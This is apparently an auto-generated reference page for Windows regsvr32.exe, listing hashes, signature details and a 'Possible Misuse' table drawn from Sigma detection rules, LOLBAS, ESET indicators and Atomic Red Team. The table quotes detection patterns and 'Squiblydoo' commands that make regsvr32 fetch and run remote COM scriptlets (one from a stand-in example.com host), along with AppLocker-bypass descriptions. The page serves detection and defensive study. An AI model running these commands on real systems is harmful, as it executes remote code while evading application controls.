


---
title: regsvr32.exe | Microsoft(C) Register Server
---

# regsvr32.exe 

* File Path: `C:\windows\SysWOW64\regsvr32.exe`
* Description: Microsoft(C) Register Server
* Comments: 

## Screenshot




## Hashes

Type | Hash
-- | --
MD5 | `4D97D6FC07642D4F744C8C59DB674302`
SHA1 | `CE09FA2A1DD10D0F675A1F0513F3C4EE4D7C3AC0`
SHA256 | `E0E722A00C127E0425D2078E738B7A684C9F55A9BF521C67E9A40D796C8BE0E9`
SHA384 | `31DD74D86D9A47B906E0C2AA1CA595F2F41C21A993520B8468F9C73713EEEA214EAB24AA72DA7665BCE9CFC132F17447`
SHA512 | `0A4D3C22056FF19F37DCF9A0443B07D1D8F74BA4FF8A2795103F4D78E54D2F9A935117B0F193F93FB760E7437771BBFA9DDAFA5F68DBFED10A7CB42C50CB79D0`
SSDEEP | `384:wte9jI+ixZu70NgDGLQQgykkskgSQlUPxAOWrnLHW0uv:k8exZYXS4UPSLXs`

## Runtime Data

### Usage (stdout):
```Batchfile

```

### Usage (stderr):
```Batchfile

```

### Child Processes:


## Signature

* Status: Signature verified.
* Serial: `33000001C422B2F79B793DACB20000000001C4`
* Thumbprint: `AE9C1AE54763822EEC42474983D8B635116C8452`
* Issuer: CN=Microsoft Windows Production PCA 2011, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Windows, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: REGSVR32.EXE
* Product Name: Microsoft Windows Operating System
* Company Name: Microsoft Corporation
* File Version: 10.0.17763.1 (WinBuild.160101.0800)
* Product Version: 10.0.17763.1
* Language: English (United States)
* Legal Copyright:  Microsoft Corporation. All rights reserved.

## File Similarity (ssdeep match)

File | Score
-- | --
[C:\Windows\system32\regsvr32.exe](regsvr32.exe-DA0E9A7777D16AE18BD9C642A9F42223.md) | 33

## Possible Misuse

*The following table contains possible examples of `regsvr32.exe` being misused. While `regsvr32.exe` is **not** inherently malicious, its legitimate functionality can by abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [godmode_sigma_rule.yml](https://github.com/Neo23x0/sigma/blob/master/other/godmode_sigma_rule.yml) | `            - '\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_creation_system_file.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/file_event/sysmon_creation_system_file.yml) | `            - '*\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_dbghelp_dbgcore_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_suspicious_dbghelp_dbgcore_load.yml) | `            - '\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_regsvr32_network_activity.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/network_connection/sysmon_regsvr32_network_activity.yml) | `title: Regsvr32 Network Activity` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_regsvr32_network_activity.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/network_connection/sysmon_regsvr32_network_activity.yml) | `description: Detects network connections and DNS queries initiated by Regsvr32.exe` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_regsvr32_network_activity.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/network_connection/sysmon_regsvr32_network_activity.yml) | `    - https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_regsvr32_network_activity.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/network_connection/sysmon_regsvr32_network_activity.yml) | `        Image\|endswith: '\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_apt_bluemashroom.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_apt_bluemashroom.yml) | `            - '*\regsvr32*\AppData\Local\\*'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_html_help_spawn.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_html_help_spawn.yml) | `            - '\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_mmc_spawn_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_mmc_spawn_shell.yml) | `            - '*\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_mshta_spawn_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_mshta_spawn_shell.yml) | `            - '*\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_shell.yml) | `            - '*\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_possible_applocker_bypass.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_possible_applocker_bypass.yml) | `            # - '\regsvr32.exe'  # too many FPs, very noisy` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary.yml) | `            - 'regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary.yml) | `            - '\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary_highly_relevant.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary_highly_relevant.yml) | `            - "regsvr32.exe"` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary_highly_relevant.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary_highly_relevant.yml) | `            - '*\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_powershell_parent_process.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_powershell_parent_process.yml) | `            - '\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_regsvr32_anomalies.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml) | `title: Regsvr32 Anomaly` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_regsvr32_anomalies.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml) | `description: Detects various anomalies in relation to regsvr32.exe` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_regsvr32_anomalies.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml) | `        Image: '*\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_regsvr32_anomalies.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml) | `        ParentImage: '*\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_regsvr32_anomalies.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml) | `        CommandLine: '*..\..\..\Windows\System32\regsvr32.exe *'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_system_exe_anomaly.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_system_exe_anomaly.yml) | `            - '*\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_task_folder_evasion.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_task_folder_evasion.yml) | `description: The Tasks folder in system32 and syswow64 are globally writable paths. Adversaries can take advantage of this and load or influence any script hosts or ANY .NET Application in Tasks to load and execute a custom assembly into cscript, wscript, regsvr32, mshta, eventvwr` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_remote_thread.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_suspicious_remote_thread.yml) | `            - '\regsvr32.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmd.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmd.yml) | `  - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Regsvr32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Regsvr32.yml) | `Name: Regsvr32.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Regsvr32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Regsvr32.yml) | `  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Regsvr32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Regsvr32.yml) | `  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Regsvr32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Regsvr32.yml) | `  - Path: C:\Windows\System32\regsvr32.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Regsvr32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Regsvr32.yml) | `  - Path: C:\Windows\SysWOW64\regsvr32.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Regsvr32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Regsvr32.yml) | ` - IOC: regsvr32.exe getting files from Internet` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Regsvr32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Regsvr32.yml) | ` - IOC: regsvr32.exe executing scriptlet files` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Regsvr32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Regsvr32.yml) | `  - Link: https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/` | 
[malware-ioc](https://github.com/eset/malware-ioc) | [nukesped_lazarus](https://github.com/eset/malware-ioc/blob/master/nukesped_lazarus/README.adoc) | `.`REGSVR32.EXE`` | [© ESET 2014-2018](https://github.com/eset/malware-ioc/blob/master/LICENSE)
[malware-ioc](https://github.com/eset/malware-ioc) | [nukesped_lazarus](https://github.com/eset/malware-ioc/blob/master/nukesped_lazarus/README.adoc) | `.`REGSVR32.exe`` | [© ESET 2014-2018](https://github.com/eset/malware-ioc/blob/master/LICENSE)
[malware-ioc](https://github.com/eset/malware-ioc) | [oceanlotus-rtf_ocx_campaigns.misp.event.json](https://github.com/eset/malware-ioc/blob/master/oceanlotus/oceanlotus-rtf_ocx_campaigns.misp.event.json) | `					"value": "Regsvr32 - T1117",` | [© ESET 2014-2018](https://github.com/eset/malware-ioc/blob/master/LICENSE)
[malware-ioc](https://github.com/eset/malware-ioc) | [oceanlotus-rtf_ocx_campaigns.misp.event.json](https://github.com/eset/malware-ioc/blob/master/oceanlotus/oceanlotus-rtf_ocx_campaigns.misp.event.json) | `					"tag_name": "misp-galaxy:mitre-enterprise-attack-attack-pattern=\"Regsvr32 - T1117\"",` | [© ESET 2014-2018](https://github.com/eset/malware-ioc/blob/master/LICENSE)
[malware-ioc](https://github.com/eset/malware-ioc) | [oceanlotus-rtf_ocx_campaigns.misp.event.json](https://github.com/eset/malware-ioc/blob/master/oceanlotus/oceanlotus-rtf_ocx_campaigns.misp.event.json) | `					"description": "Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)\n\nAdversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.\n\nRegsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: SubTee Regsvr32 Whitelisting Bypass) This variation of the technique is often referred to as a \"Squiblydoo\" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)\n\nRegsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via Component Object Model Hijacking. (Citation: Carbon Black Squiblydoo Apr 2016)\n\nDetection: Use process monitoring to monitor the execution and arguments of regsvr32.exe. Compare recent invocations of regsvr32.exe with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity. Command arguments used before and after the regsvr32.exe invocation may also be useful in determining the origin and purpose of the script or DLL being loaded. (Citation: Carbon Black Squiblydoo Apr 2016)\n\nPlatforms: Windows\n\nData Sources: Loaded DLLs, Process monitoring, Process command-line parameters, Windows Registry\n\nDefense Bypassed: Process whitelisting, Anti-virus\n\nPermissions Required: User, Administrator\n\nRemote Support: No\n\nContributors: Casey Smith",` | [© ESET 2014-2018](https://github.com/eset/malware-ioc/blob/master/LICENSE)
[malware-ioc](https://github.com/eset/malware-ioc) | [oceanlotus-rtf_ocx_campaigns.misp.event.json](https://github.com/eset/malware-ioc/blob/master/oceanlotus/oceanlotus-rtf_ocx_campaigns.misp.event.json) | `				"name": "misp-galaxy:mitre-enterprise-attack-attack-pattern=\"Regsvr32 - T1117\"",` | [© ESET 2014-2018](https://github.com/eset/malware-ioc/blob/master/LICENSE)
[malware-ioc](https://github.com/eset/malware-ioc) | [oceanlotus](https://github.com/eset/malware-ioc/blob/master/oceanlotus/README.adoc) | `\|T1117\|Regsvr32` | [© ESET 2014-2018](https://github.com/eset/malware-ioc/blob/master/LICENSE)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [issue_template.md](https://github.com/redcanaryco/atomic-red-team/blob/master/.github/issue_template.md) | e.g. Run `regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll` | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - [T1218.010 Regsvr32](../../T1218.010/T1218.010.md) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) |   - Atomic Test #1: Regsvr32 local COM scriptlet execution [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) |   - Atomic Test #2: Regsvr32 remote COM scriptlet execution [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) |   - Atomic Test #3: Regsvr32 local DLL execution [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - [T1218.010 Regsvr32](../../T1218.010/T1218.010.md) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) |   - Atomic Test #1: Regsvr32 local COM scriptlet execution [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) |   - Atomic Test #2: Regsvr32 remote COM scriptlet execution [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) |   - Atomic Test #3: Regsvr32 local DLL execution [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [matrix.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Matrices/matrix.md) | \|  \|  \| Valid Accounts [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \|  \| [Regsvr32](../../T1218.010/T1218.010.md) \|  \|  \|  \|  \|  \|  \|  \| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-matrix.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Matrices/windows-matrix.md) | \|  \|  \|  \|  \| [Regsvr32](../../T1218.010/T1218.010.md) \|  \|  \|  \|  \|  \|  \|  \| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other whitelisting defenses since CMSTP.exe is a legitimate, signed Microsoft application. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.008.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.008/T1218.008.md) | Adversaries may abuse odbcconf.exe to bypass application whitelisting solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017)  | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | # T1218.010 - Regsvr32 | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | <blockquote>Adversaries may abuse Regsvr32.exe to proxy execution of malicious code. Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe is also a Microsoft signed binary. (Citation: Microsoft Regsvr32) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | Malicious usage of Regsvr32.exe may avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since Regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: LOLBAS Regsvr32) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | Regsvr32.exe can also be leveraged to register a COM Object used to establish persistence via [Component Object Model Hijacking](https://attack.mitre.org/techniques/T1546/015). (Citation: Carbon Black Squiblydoo Apr 2016)</blockquote> | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | - [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | - [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | - [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | ## Atomic Test #1 - Regsvr32 local COM scriptlet execution | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be launched. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | \| filename \| Name of the local file, include path. \| Path \| PathToAtomicsFolder&#92;T1218.010&#92;src&#92;RegSvr32.sct\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | regsvr32.exe /s /u /i:#{filename} scrobj.dll | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | ##### Description: Regsvr32.sct must exist on disk at specified location (#{filename}) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/src/RegSvr32.sct" -OutFile "#{filename}" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | ## Atomic Test #2 - Regsvr32 remote COM scriptlet execution | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | Regsvr32.exe is a command-line program used to register and unregister OLE controls. This test may be blocked by windows defender; disable | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
